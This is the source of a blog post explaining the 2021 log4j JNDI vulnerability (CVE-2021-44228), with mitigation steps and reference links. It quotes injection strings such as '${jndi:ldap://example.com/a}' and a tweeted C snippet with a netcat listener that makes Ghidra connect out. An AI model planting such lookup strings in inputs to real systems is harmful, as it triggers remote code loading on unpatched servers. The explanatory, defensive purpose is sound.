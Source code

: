 ```yaml
---
layout: post
title: "Entry 2"
date: 2021-12-10
permalink: /logs/entry-2
---
```

Yesterday, a high severity vulnerability{% sidenote 1 "[CVE-2021-44228](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} was discovered in the popular Java logging library log4j{% sidenote 2 "[Apache Log4j](https://wiki2.org/en/Log4j){:target='_blank'}{:rel='noopener noreferrer'}" %} that could lead to remote code execution (RCE).

{% newthought 'A few notes' %} about vulnerability
The log4j package uses JNDI{% sidenote 3 "[Java Naming and Directory Interface](https://wiki2.org/en/Java_Naming_and_Directory_Interface){:target='_blank'}{:rel='noopener noreferrer'}" %}. It is a standard API for directory service that allows a Java program to find data (in the form of a Java object) through a directory.

A Java program can use JNDI and LDAP together to find a Java object containing data that it might need. For example, in the standard Java documentation there’s an [example](https://docs.oracle.com/javase/jndi/tutorial/getStarted/examples/directory.html){:target='_blank'}{:rel='noopener noreferrer'} that talks to an LDAP server to retrieve attributes from an object. It uses the URL `ldap://localhost:389/o=JNDITutorial` to find the JNDITutorial object from an LDAP server running on the same machine (localhost) on port 389 and goes on to read attributes from it.

As the tutorial says _“If your LDAP server is located on another machine or is using another port, then you need to edit the LDAP URL”_. Thus the LDAP server could be running on a different machine and potentially anywhere on the Internet. That flexibility means that if an attacker could control the LDAP URL they’d be able to cause a Java program to load an object from a server under their control.

But in the case of log4j an attacker can control the LDAP URL by causing log4j to try to write a string like ${jndi:ldap://example.com/a}. If that happens then log4j will connect to the LDAP server at example.com and retrieve the object.

This happens because log4j contains [special syntax](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution){:target='_blank'}{:rel='noopener noreferrer'} in the form ${prefix:name} where prefix is one of a number of different [Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:target='_blank'}{:rel='noopener noreferrer'} where name should be evaluated. For example, ${java:version} is the current running version of Java.

{% newthought 'Impact' %}
Many services are vulnerable to this exploit. Cloud services like Steam, Apple iCloud, and apps like Minecraft have already been found to be vulnerable.

Ghidra's vulnerable too:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Ghidra&#39;s vulnerable to log4j:<br>__attribute__((__section__(&quot;.note.${jndi:ldap://127.0.0.1:1234/abc}&quot;)))<br>int a = 1;<br>int main(){}<br>$ gcc hello.c<br>$ nc -l 1234<br>Load into Ghidra; it connects to 127.0.0.1:1234.<br>Ghidra 10.0.2, macOS OpenJDK Corretto 11.0.4.11.1<a href="https://t.co/Qu1psCjtY6">https://t.co/Qu1psCjtY6</a></p>&mdash; Zhuowei Zhang (@zhuowei) <a href="https://twitter.com/zhuowei/status/1469186818549719042?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

The underlying truth behind all of this is:

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">The lesson of Java is that some of the best engineers at the time created a secure byte-code VM and JIT, only for Design-By-Committee to come in and say &quot;maybe someone would want the Logger to load remote code via JNDI and LDAP. Let&#39;s add that!&quot;.</p>&mdash; postmodern (@postmodern_mod3) <a href="https://twitter.com/postmodern_mod3/status/1469401307005939712?ref_src=twsrc%5Etfw">December 10, 2021</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

{% newthought 'Mitigation' %}

1. Upgrading to [new version](https://logging.apache.org/log4j/2.x/download.html){:target='_blank'}{:rel='noopener noreferrer'}.
2. If you can't upgrade, set the property:

{% highlight bash %}
log4j2.formatMsgNoLookups=true
{% endhighlight %}

3. If none of the above works, you can remove the `JndiLookup` class from the classpath:
{% highlight bash %}
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
{% endhighlight %}
This command will remove the class from the log4j-core.

{% newthought 'Keypoints' %}

And the gist of it comes down to:

{% maincolumn 'https://imgs.xkcd.com/comics/dependency.png' '<em>Dependency</em>', from [xkcd](https://xkcd.com/2347/){:target="_blank"}{:rel="noopener noreferrer"} %}

----

{% newthought 'Further Information' %}

- [0] [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/){:target='_blank'}{:rel='noopener noreferrer'}
- [1] [https://news.ycombinator.com/item?id=29504755](https://news.ycombinator.com/item?id=29504755){:target='_blank'}{:rel='noopener noreferrer'}
- [2] [https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US](https://www-cnblogs-com.translate.goog/yyhuni/p/15088134.html?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en-US){:target='_blank'}{:rel='noopener noreferrer'}
- [3] [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/){:target='_blank'}{:rel='noopener noreferrer'}
- [4] [https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/](https://blog.cloudflare.com/cve-2021-44228-log4j-rce-0-day-mitigation/){:target='_blank'}{:rel='noopener noreferrer'}
- [5] [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc){:target='_blank'}{:rel='noopener noreferrer'}
- [6] [https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface){:target='_blank'}{:rel='noopener noreferrer'}
- [7] [https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java){:target='_blank'}{:rel='noopener noreferrer'}




 